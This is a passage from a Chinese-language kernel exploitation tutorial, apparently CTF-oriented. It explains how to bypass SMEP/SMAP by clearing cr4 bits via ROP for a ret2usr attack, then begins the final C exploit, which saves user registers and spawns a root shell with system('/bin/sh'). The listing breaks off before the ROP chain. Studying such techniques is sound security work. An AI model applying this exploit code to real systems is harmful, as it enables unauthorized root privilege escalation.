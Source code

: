 之后我们重新运行之前的 ret2usr 的 exp，发现直接 kernel panic 了，这是因为我们想要执行用户空间的函数指针，触发了 SMEP 保护

![image.png](figure/ret2usr_failed.png)

那么这里我们只需要通过 ROP 来关闭 SMEP&SMAP 即可继续 ret2usr，这里笔者用与运算将 SMEP 与 SMAP 的两位给清除掉了，实际上直接给 cr4 赋值 `0x6f0` 也是可以的（通常关了以后都是这个值）。

最终的 exp 如下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/ioctl.h>

/**
 * Kernel Pwn Infrastructures
**/

#define SUCCESS_MSG(msg)    "\033[32m\033[1m" msg "\033[0m"
#define INFO_MSG(msg)       "\033[34m\033[1m" msg "\033[0m"
#define ERROR_MSG(msg)      "\033[31m\033[1m" msg "\033[0m"

#define log_success(msg)    puts(SUCCESS_MSG(msg))
#define log_info(msg)       puts(INFO_MSG(msg))
#define log_error(msg)      puts(ERROR_MSG(msg))

size_t commit_creds = 0, prepare_kernel_cred = 0;
size_t kernel_base = 0xffffffff81000000, kernel_offset;

size_t user_cs, user_ss, user_rflags, user_sp;

void save_status(void)
{
    asm volatile (
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    log_success("[*] Status has been saved.");
}

void get_root_shell(void)
{
    if(getuid()) {
        log_error("[x] Failed to get the root!");
        sleep(5);
        exit(EXIT_FAILURE);
    }

    log_success("[+] Successful to get the root.");
    log_info("[*] Execve root shell now...");

    system("/bin/sh");
    
    /* to exit the process normally, instead of potential segmentation fault */
    exit(EXIT_SUCCESS);
}

void* (*prepare_kernel_cred_kfunc)(void *task_struct);
```